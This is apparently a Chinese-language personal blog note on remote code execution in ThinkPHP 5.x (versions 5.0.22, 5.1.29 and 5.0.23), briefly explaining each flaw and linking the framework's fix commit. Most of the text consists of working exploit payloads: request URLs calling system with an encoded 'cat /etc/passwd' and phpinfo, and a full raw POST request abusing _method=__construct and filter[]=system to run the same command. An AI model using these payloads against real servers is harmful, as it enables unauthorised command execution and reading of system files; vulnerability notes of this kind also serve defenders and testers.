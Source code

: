 ```yaml
---
title: "ThinkPHP 5.x 远程代码执行"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:39:06+08:00
tags: ["vuln"]
draft: false
---
```


## version 5.0.22/5.1.29 {#version-5-dot-0-dot-22-5-dot-1-dot-29}

由于框架对控制器名没有进行足够的检测，导致在没有开启强制路由的情况下（即默认情况）
可以执行任意方法，造成 RCE 漏洞。

利用 system 函数执行命令：

```nil
http://localhost:8080/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64
```

{{< figure src="/ox-hugo/2020-12-19_23-26-20_snipaste_2019-08-08_13-38-12.png" >}}

显示 phpinfo 页面：

```nil
http://localhost:8080/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


## 5.0.23 {#5-dot-0-dot-23}

在获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法
并构造利用链，造成 RCE 漏洞。

```nil
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: TUw_sid=4N3wkZ; TUw_visitedfid=2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /etc/passwd
```

[相关代码](https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003)
